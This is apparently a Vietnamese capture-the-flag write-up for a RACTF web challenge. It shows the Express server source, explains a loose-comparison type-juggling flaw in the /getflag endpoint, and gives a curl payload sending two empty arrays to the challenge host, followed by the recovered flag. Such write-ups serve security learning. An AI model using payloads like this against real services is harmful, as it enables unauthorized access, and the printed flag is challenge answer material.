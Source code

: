 ![image-20200607232143620](images/image-20200607232143620.png)

```
const bodyParser = require("body-parser")
const express = require("express")
const fs = require("fs")
const customhash = require("./customhash")

const app = express()
app.use(bodyParser.json())

const port = 3000
const flag = "flag"
const secret_key = "Y0ure_g01nG_t0_h4v3_t0_go_1nto_h4rdc0r3_h4ck1ng_m0d3"

app.get('/', (req, res) => {
    console.log("[-] Source view")
    res.type("text")
    return fs.readFile("index.js", (err,data) => res.send(data.toString().replace(flag, "flag")))
})

app.post('/getflag', (req, res) => {
    console.log("[-] Getflag post")
    if (!req.body) {return res.send("400")}
    let one = req.body.one
    let two = req.body.two
    console.log(req.body)
    if (!one || !two) {
        return res.send("400")
    }
    if ((one.length !== two.length) || (one === two)) {
        return res.send("Strings are either too different or not different enough")
    }
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
    if (one == two) {
        console.log("[*] Flag get!")
        return res.send(flag)
    } else {
        return res.send(`${one} did not match ${two}!`)
    }
})

app.listen(port, () => console.log(`Listening on port ${port}`))
```

Đọc lướt qua thì mình biết endpoint /getflag có vẻ sẽ chứa flag

- Path: /getflag

- Phương thức: POST

- Kiểm tra có dữ liệu post lên không => Nếu không response 400
- 1 trong 2 chuỗi là truthy  => response 400
- Độ dài 2 chuỗi khác nhau hoặc 2 chuỗi cùng giá trị và kiểu => response 400
- 2 chuỗi cùng giá trị (loose comparisons) => Flag



![image-20200607233958223](images/image-20200607233958223.png)

**<u>*=> Type Juggling Bug*</u>**

=> Payload: curl -X POST http://95.216.233.106:42962/getflag --header "Content-Type: application/json" --data '{"one": [],"two": []}'

=> Flag: **ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}**

